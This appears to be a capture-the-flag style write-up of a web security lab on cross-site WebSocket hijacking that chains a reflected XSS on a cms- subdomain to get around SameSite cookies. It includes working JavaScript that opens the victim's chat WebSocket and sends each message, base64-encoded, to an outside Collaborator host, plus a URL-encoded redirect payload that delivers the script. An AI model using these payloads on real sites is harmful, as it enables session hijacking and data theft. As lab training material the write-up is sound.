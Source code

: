 If we try to do something with our third party domain we're not to use the cookie of the victim domain by simesite cookie, but we find a in chat.js that `cms-` domain is allowed in the header `Access-Control-Allow-Origin:`. If we find a way to send data from here we could do something.

Now the idea is to try to connect to the HTTP web socket.
We have to create a websocket that send 'READY'.

We are going to put this script in our exploit server.

```html
<script>
	var ws = new WebSocket("https://0ab700de036cfca480fd268c00ba00f4.web-security-academy.net/chat");
	ws.onopen = function() {
		ws.send("READY");
	};

	ws.onmessage = function(info) {
		fetch("https://rup0hqd8w6h3ei03uhynnhwqehk88zwo.oastify.com?data=" + btoa(info.data));
	};
</script>
```

This script create a websocket connection with the victim URL, we open the websocket and send a message with 'READY' content.

Then create a function to obtain the response, this response we're going to send to a Collaborator URL in base64.

When you store and view exploit you have to go to collaborator and reload, but you don't see nothing, if you reload the exploit server page again you are going to see things in the Collaborator.

If we decode the response obtained from the collaborator we see this:

```
{"user":"CONNECTED","content":"-- Now chatting with Hal Pline --"}
```

What happens? We are only seeing that we are connected, but we don't see the full history, this happends because we are doing this from a third part and the session cookie is not exchange.

If we go to cms- subdomain we see that the user is reflected, we can try to do an HTML injection and it works and if we try to inject javascript code also work.

What happens if we use this XSS to inject the javascript code seen above. If don't work the first time when you submit the form, try again and see if in the collaborator have more data(remember to clean the history to obtain more clarity)

Nice, we obtain the chat of our session, the idea now is to obtain the chat of other session. For this we are going to **obtain the login request and change the method from POST to GET**. 

We're going to send to try if work, the next step is to create the exploit server:

```html
<script>
    location = 'https://cms-0ab700de036cfca480fd268c00ba00f4.web-security-academy.net/login?username=%3Cscript%3E+%09var+ws+%3D+new+WebSocket%28%22https%3A%2F%2F0ab700de036cfca480fd268c00ba00f4.web-security-academy.net%2Fchat%22%29%3B+%09ws.onopen+%3D+function%28%29+%7B+%09%09ws.send%28%22READY%22%29%3B+%09%7D%3B++%09ws.onmessage+%3D+function%28info%29+%7B+%09%09fetch%28%22https%3A%2F%2Frup0hqd8w6h3ei03uhynnhwqehk88zwo.oastify.com%3Fdata%3D%22+%2B+btoa%28info.data%29%29%3B+%09%7D%3B+%3C%2Fscript%3E&password=pass';
</script>
```
